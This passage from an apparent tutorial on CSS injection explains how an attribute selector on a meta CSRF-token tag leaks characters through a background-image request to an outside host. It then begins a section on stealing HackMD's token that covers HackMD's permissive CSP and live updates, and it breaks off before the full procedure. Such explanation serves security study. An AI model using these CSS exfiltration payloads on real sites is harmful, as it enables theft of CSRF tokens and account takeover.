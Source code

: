 ``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

If you write it like this, you will see the browser sending out a request. However, there is no display on the screen because after all, `content` is an attribute, not an HTML text node, so it will not be displayed on the screen. But the `meta` element itself is actually visible, which is why the request is sent:

![meta style](/img/css-injection-1/p3.png)

If you really want to display content on the screen, you can actually do it by using pseudo-elements with `attr`:

``` css
meta:before {
    content: attr(content);
}
```

You will see the content inside the meta tag displayed on the screen.

Finally, let's look at a practical example.

## Stealing HackMD's Data

HackMD's CSRF token is placed in two places, one is a hidden input, and the other is a meta tag, with the following content:

``` html
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```

HackMD actually supports the use of `<style>` tags, which will not be filtered out, so you can write any style you want, and the relevant CSP is as follows:

```
img-src * data:;
style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com https://fonts.gstatic.com https://*.disquscdn.com;
font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com; 
```

You can see that `unsafe-inline` is allowed, so you can insert any CSS.

After confirming that CSS can be inserted, you can start preparing to steal data. Remember the question that was not answered earlier, "How do you steal the second character and beyond?" Let me answer it using HackMD as an example.

First, CSRF tokens are usually refreshed when the page is refreshed, so you cannot refresh the page. HackMD happens to support real-time updates. As long as the content changes, it will be immediately reflected on the screens of other clients. Therefore, you can achieve "updating styles without refreshing the page". The process is as follows:

